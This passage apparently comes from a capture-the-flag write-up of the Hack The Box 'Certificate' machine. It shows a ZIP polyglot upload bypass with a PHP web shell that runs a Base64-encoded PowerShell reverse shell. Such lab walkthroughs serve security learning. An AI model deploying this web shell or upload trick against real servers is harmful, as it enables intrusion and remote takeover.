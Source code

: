 Here, uploading a normal PDF shows **"File uploaded successfully"** and provides a link to view the submitted assignment:

<img src="assets/HTB/Certificate/image5.png" alt="Error loading image">


Here after trying different type of file upload finally i found a upload a shell

## ZIP-overlay (polyglot) upload — Initial access via web shell

**Overview:** by creating a ZIP/polyglot archive that contains both a benign PDF and a PHP web shell, the application accepted the upload and stored the shell, allowing initial code execution.

#### Preparation (create a sample PDF)

- Create a simple text file and convert it to PDF:

```bash
echo "hello world" > newfile.txt
pandoc newfile.txt -o normal.pdf
```

- Create a benign ZIP containing the PDF:

```bash
zip benign.zip normal.pdf
```

- Create a PHP file containing a PowerShell reverse shell that uses the Base64 payload from [Revshells](https://www.revshells.com/) (PowerShell #3 — Base64).


```bash
<?php
shell_exec("powershell -e JABjAGwAaQBlAG4.....kAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==");
?>
```
